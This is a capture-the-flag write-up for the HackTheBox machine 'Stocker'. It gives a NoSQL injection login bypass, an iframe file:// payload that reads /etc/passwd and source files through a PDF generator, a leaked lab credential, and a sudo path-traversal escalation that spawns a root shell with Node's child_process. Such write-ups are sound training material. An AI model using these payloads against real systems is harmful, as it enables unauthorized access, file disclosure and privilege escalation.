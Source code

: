 # HackTheBox -Stocker

Initial Nmap 1000 tcp port scan
```bash
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```
I did a full tcp port scan their is nothing open rather than our initial scan

## Hosts
stocker.htb

## Subdomain
dev.stocker.htb
We can login the site but we dont have an option to register.

## Tech stack
Backend is using express framework so that is an nodejs server.Mostly Nodejs is come with MEAN stack

Trying to bypass the login with NoInjection.

Payload
```json
{"username": {"$ne": null}, "password": {"$ne": null}}
```
we can sucessfully bypass the login

# Foothold as user

Pdf xss to arbitary file Read.

Backend is using headless chrome to pdf printing. version identified using exiftool from one of the pdf.
chrome 108.
Inject an iframe in title parameter to read the local file using file schemea.

Payload
Reading passwd file
"<iframe src=file:///etc/passwd width=\"1000\" height=\"1000\"></iframe>"
Reading source file index.js
"<iframe src=file:///var/www/dev/index.js width=\"1000\" height=\"1000\"></iframe>"
Once read the username from passwd file we get the password from index.js to take ssh

Creds
angoose:IHeardPassphrasesArePrettySecure

# Privilege Escalation
```bash
We can run sudo with nodejs and some js scripts
User angoose may run the following commands on stocker:                                                  
    (ALL) /usr/bin/node /usr/local/scripts/*.js  
```
Abuse this with path travesel we can run our js script with sudo.

payload shell.js
```javascript
require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
```
Rooted!
